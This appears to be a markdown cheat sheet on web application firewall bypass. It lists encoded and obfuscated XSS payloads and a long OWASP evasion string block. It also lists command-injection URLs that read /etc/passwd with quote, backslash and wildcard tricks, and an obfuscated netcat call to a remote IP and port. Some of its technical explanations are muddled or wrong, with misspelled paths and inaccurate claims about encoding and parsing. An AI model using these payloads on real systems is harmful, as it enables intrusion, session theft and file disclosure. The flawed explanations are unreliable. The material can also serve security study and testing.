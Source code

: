 #  WAF bypass
- The main functionality seems to be to check our input and validate that it is safe. Knowing this there might be several ways to get around these checks.

#  Base64 encoding our payload
- A WAF might be blocking the following request on a page where 'q' is a paramter that stands for Query in a search function. The q parameter's value get's reflected on the page if there are no results found.
`/?q=<javascript:alert(document.cookie)>`

- This is because the WAF might be set up to block anything containing alert(\*) or anything containing "javascript". 
- If we know this we might be able to fool the server by encoding our payload for example. In HTML we can indicate that we are talking about base64 using the \<data\> tag. In there we can indicate that we are working with Base64.
`/?q=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

- Using this technique we might e able to pass by some of the dumber WAFs that will look at this attack string and don't see the word javascript or alert which will result in the attack string being allowed. The server will then decode the message as expected resulting in an alert.


#  Language Specific tricks
- `https://site.com/index.php?%20file=cat /etc/passwd`
- `https://site.com/index.php?file=cat /etc/passwd`
- In this situation we are relying on the fact that PHP will replace whitespaces in the URL with underscores. %20 is the url encoded value for a space.
- `https://site.com/index.php?%file=cat /etc/passwd`
- `https://site.com/index.php?file=cat /etc/passwd`
- ASPX has similar strage behavior where it will just remove the %sign if it's not followed by 2 numbers. This will allow us to put some cool tricks when a waf does not reject unknown parameters.


#  Other Techniques
- `<img src=x onerror="javascript:window.onerror=alert; throw XSS">`
- Some WAFs will see this string when they are looking for "src=x" or "=alert" and they will only look at that literal string. Since our attack string contains spaces it will be allowed and later on the webserver will remove the spaces for us and pop our alert.
- `https://site.com/index.php?file=cat /etc/pa\wd`
- WAFs don't just serve to block XSS requests. It can also block LFI attacks. We might be able to simple fool the server by adding in a special character like '\\' into the string.
- In linux this character is allowing us to escape characters but since we only escape the 's' character it prints it literaly so on the server we just see "cat /etc/pa\wd" which in bash is the same as "cat /etc/paswd".
- `https://site.com/index.php?file=cat /etc/pa*swd`
- `https://site.com/index.php?file=cat /etc/pa**swd`
- `https://site.com/index.php?file=cat /etc/pa's'wd`
- `https://site.com/index.php?file=cat /etc/pa"s"wd`
- We can think of several variations of these special characters which serve a purpose on linux:
- `https://site.com/index.php?command=n'c' 10.10.10.10 4234`
- We can do exactly the thing to commands when we enter the above command into bash it would just ignore the single quotes.


#  Don't forget about the Wildcard
- Due to some bash tricks we can remove most of our commands and still have then work!
- `https://site.com/index.php?file=cat /e??/p????`
- `https://site.com/index.php?file=cat /etc/??????`
- `https://site.com/index.php?file=cat /???/paswd`
- The above commands will all grab the /etc/passwd file because of how bash works with wildcards. It'll try to grab the first file it sees that matches those criteria and if we craft our attack string well enough we can even execute commands. We just have to grab them from /usr/bin.
- `https://site.com/index.php?command=/???/???/nc`
- Due to the way default unix is set up, usually "/???/???" will lead to usr/bin and if we use our imagination we can get very far with just question mark.


#  OWASP XSS WAF filter bypass strings
- OWASP gives us some XSS attack strings on their website that are designed to pass around some of the most common WAFs. [Link Here](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
```
<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">

<Video> <source onerror = "javascript: alert (XSS)">

<Input value = "XSS" type = text>

<applet code="javascript:confirm(document.cookie);">

<isindex x="javascript:" onmouseover="alert(XSS)">

"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

"><img src="x:x" onerror="alert(XSS)">

"><iframe src="javascript:alert(XSS)">

<object data="javascript:alert(XSS)">

<isindex type=image src=1 onerror=alert(XSS)>

<img src=x:alert(alt) onerror=eval(src) alt=0>

<img src="x:gif" onerror="window['al\u0065rt'](0)"></img>

<iframe/src="data:text/html,<svg onload=alert(1)>">

<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>

<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script

<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">

<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>

<form><a href="javascript:\u0061lert(1)">X
</script>

<img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src
)'>

<style>//*{x:expression(alert(/xss/))}//<style></style>
On Mouse Over

<img src="/" =_=" title="onerror='prompt(1)'">

<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe

<script x> alert(1) </script 1=2

<form><button formaction=javascript&colon;alert(1)>CLICKME

<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"

<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>
```

#  Resources
- https://interact.f5.com/rs/653SMC783/images/EBOOKSEC242055496-which-waf-is-right-product-FNL.pdf
- https://www.f5.com/services/resources/glossary/web-application-firewall#:~:text=A+WAF+protects+your+web,and+what+traffic+is+safe
- https://owasp.org/www-community/xss-filter-evasion-cheatsheet
- https://campus.barracuda.com/product/webapplicationfirewall/doc/4259853/configuring-urlnormalization/